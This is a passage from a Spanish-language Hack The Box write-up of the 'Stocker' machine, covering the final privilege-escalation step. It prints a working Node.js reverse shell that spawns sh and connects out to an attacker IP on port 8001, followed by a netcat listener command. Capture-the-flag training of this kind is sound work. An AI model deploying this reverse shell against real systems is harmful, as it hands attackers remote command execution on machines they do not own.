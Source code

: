 ```bash
 nano stocker.js
  
    (function(){
    var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(8001, "10.10.14.152", function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
    })();
```

Luego en nuestra máquina de atacante, abrimos una terminal y nos ponemos en escucha por el puerto 8001 **nc -lvnp 8001**

![](/assets/images/HTB/writeup-stocker/root.png)

Probamos y listo ya tenemos la **Flag**.
